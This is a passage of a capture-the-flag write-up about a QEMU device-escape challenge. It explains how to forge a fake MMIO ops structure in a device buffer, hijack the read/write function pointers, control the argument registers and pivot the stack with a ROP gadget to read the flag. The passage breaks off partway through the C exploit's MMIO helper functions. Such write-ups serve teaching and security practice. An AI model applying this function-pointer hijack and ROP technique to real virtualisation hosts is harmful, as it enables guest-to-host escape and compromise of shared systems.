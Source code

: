 you can see the `mmio.ops` entry that points to another structure `maria_mmio_ops` that contains functions pointers to the `read`, `write` functions of the drivers.

So we can forge a fake `maria_mmio_ops` structure in the `maria->buff[]` and make `maria->mmio.ops` points to it. When we will write or read in the memory mapped region, our functions will be called instead of `maria_mmio_read`and ̀maria_mmio_write`.

The `maria->mmio.opaque` is interesting too, as it will be passed in `rdi` as the first argument of the read/write function, so with it, we will control `rdi`

and we will control `rsi`too, this is the offset at which we write from beginning of memory mapped zone.

and `rdx` will be the value that we write to this offset.

So we can control the 3 arguments of the read/write function that will be called.

The qemu run with the sandbox, so we can not use execve, so we will use `open` , `read`, `write`to just dump the flag.

The author of the challenge (and my teammate too..), use a call to `mprotect` to map the buffer `RWX`, and a jump to a shellcode to dump the flag..

For changing a bit , I will use a gadget to pivot stack on `rdi`pointed memory, and will dump the flag with a small ROP payload. In fact it pivot on `rax` which contains  the same value than `rdi`, as it is used to populate `rdi`before calling...

```c
gadget = progbase + 0x0000000000b1088a; /* push rax ; pop rsp ; mov eax, 1 ; pop rbp ; ret */
```

Here is the exploit to do that:

```c
#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>
#include <sys/io.h>
#include <sys/types.h>
#include <inttypes.h>

unsigned char *mmio_mem;

#define PAGE_SIZE 0x1000

void mmio_write(uint32_t addr, uint32_t value) {
    *(uint32_t *)(mmio_mem + addr) = value;
}

uint32_t mmio_read(uint32_t addr) {
    return *(uint32_t *)(mmio_mem + addr);
}

void set_src(uint32_t value) {
    mmio_write(0x04, value);
}

void set_off(uint32_t value) {
    mmio_write(0x08, value);
}

void get_buff() {
    mmio_read(0x00);
}

void set_buff() {
```